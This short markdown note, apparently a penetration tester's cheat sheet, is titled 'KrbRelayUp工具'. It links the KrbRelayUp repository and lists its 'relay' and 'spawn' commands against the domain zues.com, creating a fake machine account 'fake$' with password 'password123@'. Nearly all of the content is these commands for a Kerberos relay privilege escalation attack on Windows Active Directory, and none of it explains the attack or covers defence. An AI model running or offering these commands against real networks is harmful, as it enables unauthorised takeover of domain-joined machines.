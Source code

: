 # KrbRelayUp工具

https://github.com/Dec0ne/KrbRelayUp

```bash
.\KrbRelayUp.exe relay -d zues.com -c -cn fake$ -cp password123@
./KrbRelayUp spawn -d zues.com -cn fake$ -cp password123@

```